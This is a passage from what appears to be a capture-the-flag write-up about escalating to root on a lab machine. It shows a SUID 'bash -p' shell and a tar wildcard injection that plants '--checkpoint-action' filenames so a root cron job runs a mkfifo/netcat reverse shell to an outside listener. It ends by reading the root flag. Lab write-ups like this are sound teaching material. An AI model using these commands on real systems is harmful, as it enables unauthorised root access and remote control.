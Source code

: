 ```shell
bash-4.3$ /bin/bash -p
/bin/bash -p
bash-4.3# whoami
whoami
root
```

### Alternative Method - Tar Wildcard Expansion Reverse Shell Injection
Start a nc listener first:

```shell
nc -lvnp 8443
```


Now, taking as reference the commands we previously used, we can also inject a reverse shell instead:

```shell
# Tar wildcard injection with a reverse shell
cd /var/www/html
printf 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.113.193 8443 >/tmp/f' > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```

Wait for root cron job to run and check our nc listener. After 1 minute, we will get a response on our nc listener:

```shell
listening on [any] 8443 ...
connect to [10.11.113.193] from (UNKNOWN) [10.10.232.106] 51380
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
```

### Root Flag
Now we can get the root.txt flag:

```shell
cat /root/root.txt
```








